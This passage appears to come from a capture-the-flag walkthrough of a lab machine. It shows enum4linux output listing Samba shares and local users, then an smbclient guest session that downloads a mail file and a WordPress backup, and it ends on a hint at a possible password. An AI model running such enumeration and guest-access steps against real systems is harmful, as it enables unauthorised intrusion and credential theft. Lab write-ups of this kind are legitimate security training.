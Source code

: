 **Run enum4linux to discover samba shares and local users:**

```bash
... 
 ========================================== 
|    Share Enumeration on 192.168.5.124    |
 ========================================== 
[V] Attempting to get share list using authentication

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        sambashare      Disk      Samba on Ubuntu
        IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            PHOTOGRAPHER
...
S-1-22-1-1000 Unix User\daisa (Local User)
S-1-22-1-1001 Unix User\agi (Local User)
...
```

**Use smbclient to connect to the sambashare share as the guest user and download the share contents:**

```bash
└─$ smbclient \\\\192.168.5.124\\sambashare --user=guest                                                                                1 ⨯
Enter WORKGROUP\guest's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jul 20 18:30:07 2020
  ..                                  D        0  Tue Jul 21 02:44:25 2020
  mailsent.txt                        N      503  Mon Jul 20 18:29:40 2020
  wordpress.bkp.zip                   N 13930308  Mon Jul 20 18:22:23 2020

                278627392 blocks of size 1024. 264268400 blocks available
                
smb: \> get mailsent.txt 
getting file \mailsent.txt of size 503 as mailsent.txt (19.6 KiloBytes/sec) (average 19.6 KiloBytes/sec)
smb: \> get wordpress.bkp.zip 
getting file \wordpress.bkp.zip of size 13930308 as wordpress.bkp.zip (10282.6 KiloBytes/sec) (average 10092.2 KiloBytes/sec)
smb: \> exit
```

**View the `mailsent.txt` file.. there is a hint indicating a possible password `babygirl`:**
